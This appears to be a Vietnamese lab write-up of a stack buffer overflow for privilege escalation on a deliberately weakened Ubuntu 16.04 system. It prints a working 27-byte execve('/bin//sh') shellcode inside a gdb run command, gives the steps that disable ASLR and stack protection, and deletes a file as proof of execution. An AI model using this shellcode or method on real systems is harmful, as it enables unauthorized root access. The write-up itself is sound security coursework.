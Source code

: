 # 1. Privilege escalation

source: 

![alt text](../images/image-32.png)



### Shellcode

#### 1. Viết chương trình shellcode bằng hợp ngữ, biên dịch (nasm) và liên kết (ld) để tạo chương trình thực thi

`nasm -g -f elf sh.asm `

`ld -m elf_i386 -o sh sh.o`

#### 2. dùng objdump -d sh để xem mã nhị phân của file sh

![alt text](../images/image-33.png)

Dùng câu lệnh này để chỉ lấy các mã nhị phân của file sh và in ra

![alt text](../images/image-34.png)

=> 27 bytes của shellcode

### Chuẩn bị môi trường lab

- Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH

- ![alt text](../images/image-35.png)

- Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack

![alt text](../images/image-36.png)

* "-z execstack: "cho phép thực thi code trên stack"

- Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04
  
![alt text](../images/image-37.png)

* Phiên bản 16.04 có cơ chế bảo vệ stack => tắt đi => tạo shell mới zsh cho phép thực thi

- thêm 1 dummyfile để xóa

![image](https://github.com/user-attachments/assets/8e3c502a-8e64-419c-b22a-c40a4c4edf98)


### CONDUCTING THE ATTACK

Mục tiêu là chèn 27 bytes của shellcode vào biến buf + 41 bytes bất kì

=> 68 bytes của buf + ebp

disas main

![alt text](../images/image-40.png)

đặt breakpoint sau khi stackframe được thiết lập: 0x08048441

![alt text](../images/image-38.png)

đặt breakpoint sau khi esp quay trở lại trí ban đầu: 0x0804846b

![alt text](../images/image-39.png)

chạy chương trình

`r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80'+'41'*a+'\xff\xff\xff\xff')")`

*'\xff\xff\xff\xff': dùng để nhận diện địa chỉ trả về của hàm main

xem bộ nhớ stack khi stackframe được thành lập

![alt text](../images/image-42.png)

xem bộ nhớ stack sau khi đã chèn shellcode vào

![alt text](../images/image-43.png)

* 27 bytes đầu là của shellcode

* 41 bytes a

* 4 bytes 0xff là return address

thay thế địa chỉ trả về của stack thành esp

![alt text](../images/image-45.png)

BBộ nhớ stack sau khi thay thế địa chỉ trả về của stack thành esp

![alt text](../images/image-46.png)

Chạy tiếp

![alt text](../images/image-47.png)

dùng lệnh `rm -r -f dummyfile` để xóa file

Kết quả

![image](https://github.com/user-attachments/assets/f05668d6-1904-4819-a99b-0cff5858fa52)



